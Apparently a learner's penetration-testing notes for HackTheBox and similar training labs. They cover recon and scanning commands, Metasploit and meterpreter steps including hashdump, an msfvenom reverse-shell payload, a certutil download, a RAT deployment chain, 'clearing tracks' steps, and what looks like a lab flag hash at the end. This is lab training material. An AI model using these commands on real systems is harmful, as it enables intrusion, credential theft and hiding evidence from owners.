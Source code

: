 # training labs
- https://Hackthis.co.uk
- https://www.hackthebox.eu/
- https://www.hackerone.com/start-hacking
- https://www.virtualhackinglabs.com/labs/penetration-testing-lab/
- https://www.hackthissite.org/
- https://cryptopals.com/
- http://opensecuritytraining.info/HTID.html

# tutorials
- https://www.hackerone.com/hacker101

# images/apps
- http://www.dvwa.co.uk/
- https://Vulnhub.com
  - was walkthroughs and write ups

# home lab
- https://information.rapid7.com/download-metasploitable-2017.html
  - setup a machine with a hypervisor
  - 1 vm for kali
  - 1 vm with a metasploitable

# games
- https://ctftime.org/

# Phases
1. Recon
2. Scanning 
3. Gaining access
4. Maintaining access
5. Clearing tracks

# hack the box
- https://www.hackthebox.eu/home/rules
- https://www.hackthebox.eu/home/htb/access
  - OpenVPN
  - nmap -sC -sV 10.10.10.79
  - nmap --script vuln -oA nmap/vulnscan 10.10.10.79
  - sslyze --heartbleed 10.10.10.79:443
  - gobuster -u http://10.10.10.79 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50
  - burp suite community edition

# top tools
- Metasploit
- the Nessus Vulnerability Scanner
- Nmap
- Burp Suite    # web
- OWASP ZAP     # web
- SQLmap
- Kali Linux
- Jawfish

## Hack examples
- https://www.youtube.com/watch?v=JZN3JhoAdWo
- https://medium.com/bugbountywriteup/valentine-a-hackthebox-writeup-f5b731e35138
1. `Recon`
   1. get $IP of target from hackthebox.eu
2. `Scanning` 
   1. nmap $ip                    # better to use msfc db_nmap
      1. 8080/tcp                 # browse via web
   2. nmap -A -T4 -p- $ip         # ALL scan, OS/ver/script/traceroute detection.
      1.  5min to an hour
   3. nmap -sU -T4 -p1-1000 $ip   # 1000 UDP ports
   4. Leads
      1. smb                      # 139/tcp ntbios-ssnn
      2. ftp                        
      3. web app
   5. google search $lead exploit 
      1. exploit-db.com
      2. rapid7.com
      3. AutoBlue-MS17010 coded example
3. `Gaining access`
   1. msfconsole                  # Rapid7 Metasploit
      1. search $lead           # $keyword
      2. search $exploit-keyword-or-id
      3. use $exploit/aux
      4. info
      5. options
      6. show
      7. set $var $value
      8. exploit or run
   2. nessus??
4. `Maintaining access`
   1. meterpreter               # reverse shell
      1. getuid #windows command
      2. sysinfo
      3. help
      4. getsystem
      5. hashdump # get the SAM, pass hashes?
      6. find user.txt, or root.txt and submit to hackthebox.eu
      7. background
      8. search suggester
   2. msfvenom -p java/jsp_shell_reverse_tcp LHOST=$myip LPORT=$myport -f war > rat.war
      1. msfconsole
         1. use exploit/multi/handler
         2. set payload windows/x64/???
5. `Clearing tracks`
   1. CCleaner
   2. Auditpol
6. Capture the flag (CTF)
   1. tag web with contents of user.txt

# chains 
1. get access
   1. searchsploit
2. escalate access
3. upload rat
4. execute rat
5. deploy rat
   1. msfvenom cheat sheet aspx
6. clear tracks

# Leads
1. ftp
   1. get/put $file
2. smb                                          # found smb service
   1. smbclient -L \\\\$ip\\      
      1. try to crawl folders
3.  web app
   2. default apps
      1. try default credential lists
         1. google app names and default credentials
         2. try in burp suite
   3. dirbuster&  # OWASP DirBuster
      1. /usr/share/wordlists/dirbuster/dir??    #list based
         1. iis7 ext "asm,asmx,asp,aspx"
4. linux
   1. quick http
      1. python -m SimpleHTPServer 80
5. windows privliaged escalation
   1. wget for windws
      1. certutil -urlcache -f $url
   2. windows expliot suggester
   3. https://www.fuzzysecurity.com/tutorials/16.html
      1. rasta-mouse / sherlock or watson

# linux
- locate $filename 	   # faster than find
- updatedb 		         # if locate slow

nibbles b6d745c0dfb6457c5559lefc898ef88c